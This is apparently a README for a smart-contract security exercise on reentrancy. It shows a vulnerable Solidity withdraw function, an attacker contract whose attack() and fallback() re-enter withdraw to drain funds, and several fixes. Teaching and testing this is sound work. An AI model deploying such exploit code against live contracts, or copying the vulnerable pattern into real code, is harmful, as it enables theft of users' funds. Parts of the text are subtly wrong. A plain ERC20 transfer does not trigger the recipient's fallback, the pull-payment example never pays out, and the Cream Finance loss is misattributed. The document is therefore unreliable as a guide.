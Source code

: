# Token Whale Reentrancy Attack

## Overview

This exercise demonstrates a classic reentrancy vulnerability in a token bank contract. The `TokenWhale` contract allows users to deposit and withdraw ERC20 tokens, but the `withdraw` function is vulnerable to reentrancy attacks due to improper state management.

## The Vulnerability

### Root Cause
The vulnerability exists in the `withdraw` function of the `TokenWhale` contract:

```solidity
function withdraw(address token, uint256 amount) external {
    uint256 userBalance = balances[token][msg.sender];
    require(userBalance >= amount, "Insufficient balance");
    
    // VULNERABILITY: External call before state update
    bool success = IToken(token).transfer(msg.sender, amount);
    require(success, "Token transfer failed");
    
    // State update happens AFTER the external call (vulnerable to reentrancy)
    balances[token][msg.sender] -= amount;
}
```

**The Problem**: The contract makes an external call (`IToken(token).transfer()`) before updating the internal state (`balances[token][msg.sender] -= amount`). This creates a window where an attacker can re-enter the function and drain funds.

### Why This Happens
1. **External Call First**: The contract transfers tokens to the caller
2. **State Update After**: The balance is only updated after the transfer
3. **Reentrancy Window**: Between the transfer and balance update, the attacker can call `withdraw` again
4. **Recursive Drain**: Each call sees the old balance, allowing multiple withdrawals

## The Attack

### Attack Contract: `TokenWhaleAttacker`

The attacker contract exploits this vulnerability through the following steps:

1. **Setup**: Deposit tokens into the vulnerable contract
2. **Initiate Attack**: Call `withdraw` to start the attack
3. **Reentrancy**: Use `fallback()` or `receive()` to re-enter during token transfer
4. **Drain**: Continue withdrawing until the contract is empty

### Key Components

#### Attack Initialization
```solidity
function attack(uint256 attackAmount) external {
    // Transfer tokens from attacker to this contract
    IToken(targetToken).transferFrom(msg.sender, address(this), attackAmount);
    
    // Approve TokenWhale to spend our tokens
    IToken(targetToken).approve(address(tokenWhale), attackAmount);
    
    // Deposit tokens into TokenWhale
    tokenWhale.deposit(targetToken, attackAmount);
    
    // Start the reentrancy attack
    attacking = true;
    tokenWhale.withdraw(targetToken, attackAmount);
    attacking = false;
}
```

#### Reentrancy Logic
```solidity
fallback() external {
    if (attacking) {
        uint256 whaleBalance = tokenWhale.getTotalBalance(targetToken);
        uint256 myBalance = tokenWhale.getBalance(targetToken, address(this));
        
        if (whaleBalance > 0 && myBalance > 0) {
            // Re-enter the withdraw function before the state is updated
            tokenWhale.withdraw(targetToken, myBalance);
        }
    }
}
```

## Attack Flow

1. **Attacker deposits 100 tokens** into TokenWhale
2. **Attacker calls `withdraw(100)`**
3. **TokenWhale checks balance**: `balances[token][attacker] = 100` ✓
4. **TokenWhale transfers 100 tokens** to attacker
5. **Attacker's `fallback()` is triggered** during the transfer
6. **Attacker re-enters `withdraw(100)`** before balance is updated
7. **TokenWhale checks balance again**: `balances[token][attacker] = 100` ✓ (still old value!)
8. **TokenWhale transfers another 100 tokens**
9. **Process repeats** until TokenWhale is drained

## Impact

- **Fund Drainage**: Attacker can drain all tokens from the contract
- **Recursive Exploitation**: Each deposit can be withdrawn multiple times
- **Economic Loss**: Legitimate users lose their deposited tokens

## Prevention

### 1. Checks-Effects-Interactions Pattern
Update state before making external calls:

```solidity
function withdraw(address token, uint256 amount) external {
    uint256 userBalance = balances[token][msg.sender];
    require(userBalance >= amount, "Insufficient balance");
    
    // SECURE: Update state BEFORE external call
    balances[token][msg.sender] -= amount;
    
    // Make external call after state update
    bool success = IToken(token).transfer(msg.sender, amount);
    require(success, "Token transfer failed");
}
```

### 2. Reentrancy Guard
Use a modifier to prevent reentrancy:

```solidity
bool private locked;

modifier noReentrant() {
    require(!locked, "No reentrancy allowed");
    locked = true;
    _;
    locked = false;
}

function withdraw(address token, uint256 amount) external noReentrant {
    // ... function logic
}
```

### 3. Pull Payment Pattern
Let users withdraw their own funds instead of pushing:

```solidity
mapping(address => uint256) public pendingWithdrawals;

function requestWithdrawal(address token, uint256 amount) external {
    // Update state immediately
    balances[token][msg.sender] -= amount;
    pendingWithdrawals[msg.sender] += amount;
}

function withdrawFunds() external {
    uint256 amount = pendingWithdrawals[msg.sender];
    pendingWithdrawals[msg.sender] = 0;
    // Transfer to user
}
```

## Testing the Attack

### Setup
1. Deploy `MockToken` with initial supply
2. Deploy `TokenWhale` contract
3. Deploy `TokenWhaleAttacker` with TokenWhale and token addresses
4. Transfer tokens to attacker contract
5. Call `attack()` function

### Expected Result
- Attacker contract should drain all tokens from TokenWhale
- Multiple withdrawals occur from a single deposit
- TokenWhale's balance goes to zero

## Real-World Examples

- **The DAO Hack (2016)**: $60M drained through reentrancy
- **Lendf.me (2020)**: $25M stolen via reentrancy attack
- **Cream Finance (2021)**: $130M lost to reentrancy

## Key Takeaways

1. **Always update state before external calls**
2. **Use reentrancy guards for critical functions**
3. **Follow the Checks-Effects-Interactions pattern**
4. **Test thoroughly with malicious contracts**
5. **Consider using established libraries like OpenZeppelin**

This vulnerability demonstrates why proper state management and external call ordering are crucial for smart contract security.
